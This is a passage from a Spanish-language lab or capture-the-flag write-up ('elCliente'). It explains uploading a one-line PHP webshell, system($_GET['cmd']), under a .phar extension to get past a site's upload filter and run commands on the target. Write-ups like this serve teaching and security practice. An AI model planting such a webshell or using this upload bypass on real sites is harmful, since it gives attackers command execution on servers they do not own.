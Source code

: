 Esto ya nos dice nuestra próxima acción, que sería crear una **Webshell** con extensión **phar** para poder ejecutar comandos desde la página web.

<br>

<h2 id="Webshell">Cargando Webshell de PHP con Extensión Phar para Ejecutar Comandos y Ganando Acceso a la Máquina Víctima</h2>

Vamos a crear nuestra **Webshell** con el siguiente script de **PHP**:
```php
<?php
	system($_GET['cmd']);
?>
```
Recuerda que el nombre del archivo debe contener la extensión **.phar**.

Luego, la cargamos a la página web:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura17.png">
</p>

Observa que nos acepta el archivo y nos lo muestra en la parte derecha de la página:

<p align="center">
<img src="/assets/images/THL-writeup-elCliente/Captura18.png">